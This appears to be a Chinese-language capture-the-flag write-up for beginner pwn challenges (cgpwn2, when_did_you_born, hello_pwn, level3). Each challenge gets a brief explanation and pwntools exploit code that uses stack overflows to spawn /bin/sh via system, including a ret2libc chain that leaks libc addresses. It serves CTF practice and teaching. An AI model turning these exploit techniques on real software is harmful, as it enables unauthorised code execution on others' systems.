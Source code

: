 ```python
ru('choice:')
sl('1')
ru('username:\n')
sl('aaa')
ru('passwd:\n')
payload = flat('a'*(0x14+4),elf.sym['what_is_this'])
sl(payload.ljust(260,'a'))
```

### cgpwn2

本题提供了一个 bss 段的可写的 `name` 字符串数组，显然就是要我们向其中写入 `/bin/sh`，然后通过溢出调用 `system("/bin/sh")`。

```python
ru('name\n')
sl('/bin/sh')
ru('here:\n')
payload = flat('a'*(0x26+4),elf.plt['system'],'a'*4,0x804a080)
sl(payload)
```

### when_did_you_born

这题要求输入的生日年份 `v5` 不能等于 1926，但是之后又要求 `v5` 等于 1926，两者之间存在一个 `get(&v4)` 的操作，很容易想到通过溢出 `v4` 来修改 `v5` 的值。

```python
ru('Birth?\n')
sl('1900')
ru('Name?\n')
payload = flat('a'*0x8,1926)
sl(payload)
```

### hello_pwn

直接计算得到偏移量为 4 并溢出为指定值即可，没有难度。

```python
ru('bof\n')
payload = flat('a'*4,0x6e756161)
sl(payload)
```

### level3

基础的 ret2libc，注意加载题目给定的 libc。

```python
ru('Input:\n')
payload = flat('a'*(0x88+4),elf.plt['write'],elf.sym['main'],1,elf.got['write'],0x4)
sl(payload)
write = uu32(r(4))
leak('write',write)

base = write - libc.sym['write']
system = base + libc.sym['system']
binsh = base + libc.search('/bin/sh').next()

ru('Input:\n')
payload = flat('a'*(0x88+4),system,'a'*4,binsh)
sl(payload)
```

